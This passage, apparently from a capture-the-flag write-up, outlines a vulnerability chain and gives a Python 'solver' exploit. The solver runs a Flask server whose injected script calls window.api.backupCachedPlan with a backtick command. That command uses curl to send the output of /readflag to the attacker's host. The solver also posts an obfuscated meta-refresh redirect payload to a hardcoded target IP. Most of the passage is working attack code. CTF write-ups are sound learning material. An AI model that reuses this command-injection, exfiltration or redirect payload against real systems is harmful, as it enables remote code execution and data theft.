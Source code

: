 ```html
```
![alt text](/assets/img/img3.png)

#### CHAINING THE VULN:
Post redirection to backend -> spawn bot with the uuid -> redirected to our server -> execute window.api -> Profit

#### SOLVER

```py
from flask import Flask, request
import requests
import threading
import time
app = Flask(__name__)
HOST_IP = "0.0.0.0"
PORT = 8000
TARGET_HOST = "http://13.250.64.232"


@app.route("/", methods=["GET", "POST"])
def home():
   if request.method == "POST":
       print(request.form.get("flag"))
   return f"""
   <script>
       window.api.backupCachedPlan("`curl -X POST http://{HOST_IP}:{PORT}/ --data \\"flag=$(/readflag)\\"`")
   </script>
   """
def run_flask():
   app.run(host="0.0.0.0", port=8000)
if __name__ == "__main__":
   flask_thread = threading.Thread(target=run_flask)
   flask_thread.daemon = True
   flask_thread.start()
   print("Waiting flask to be up")
   time.sleep(1)
   print("Send redirection")
   req = requests.post(TARGET_HOST+":"+"5599/create-plan", json={
   "title":"x",
   "description":f"<met(a ht(tp-equiv=\"refresh\" cont(ent=\"0;url=ht(tp://{HOST_IP}:{PORT}\">","important_type":1
   }).json()
```